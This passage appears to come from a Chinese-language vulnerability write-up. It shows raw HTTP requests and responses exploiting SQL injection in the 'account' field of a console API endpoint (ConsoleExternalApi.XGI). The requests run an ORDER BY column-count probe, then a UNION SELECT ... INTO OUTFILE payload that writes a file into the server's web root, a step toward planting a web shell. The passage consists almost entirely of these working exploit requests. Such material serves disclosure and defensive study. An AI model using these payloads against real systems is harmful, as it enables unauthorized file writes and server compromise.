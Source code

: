 ```http
POST /ConsoleExternalApi.XGI?key=inner&initParams=command_createUser__user_admin__pwd_123&sign=455bb32c0eb81692d75438a140c166e4 HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: application/json
Content-Type: application/json
Cookie: PHPSESSID=60ql548qeb56e9tvsjo1mjnnq5; CookieLanguageName=ZH-CN; think_languague=zh-CN; UserAuthtype=0
Accept-Encoding: gzip, deflate
Referer: http://192.168.21.89:8081/ConsoleExternalApi.XGI
Content-Length: 53
Connection: close

{"account":"admin' ORDER BY 32-- -", "userPwd":"123"}
```

```http
HTTP/1.1 200 OK
Date: Fri, 14 Apr 2023 11:31:21 GMT
Server: Apache
Content-Length: 45
Connection: close
Content-Type: application/json; charset=utf-8

{"result":0,"msg":"添加用户数据失败"}
```

那么接下来就可以直接`INTO OUTFILE`写文件了。

```http
POST /ConsoleExternalApi.XGI?key=inner&initParams=command_createUser__user_admin__pwd_123&sign=455bb32c0eb81692d75438a140c166e4 HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: application/json
Content-Type: application/json
Cookie: PHPSESSID=60ql548qeb56e9tvsjo1mjnnq5; CookieLanguageName=ZH-CN; think_languague=zh-CN; UserAuthtype=0
Accept-Encoding: gzip, deflate
Referer: http://192.168.21.89:8081/ConsoleExternalApi.XGI
Content-Length: 270
Connection: close

{"account":"admin' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,'D7UFszUIaH8TOo' into outfile './../../WebRoot/js/D7-UFs.txt'-- -", "userPwd":"123"}
```

```http
HTTP/1.1 200 OK
Date: Fri, 14 Apr 2023 11:31:34 GMT
Server: Apache
Content-Length: 45
Connection: close
Content-Type: application/json; charset=utf-8

{"result":0,"msg":"添加用户数据失败"}
```
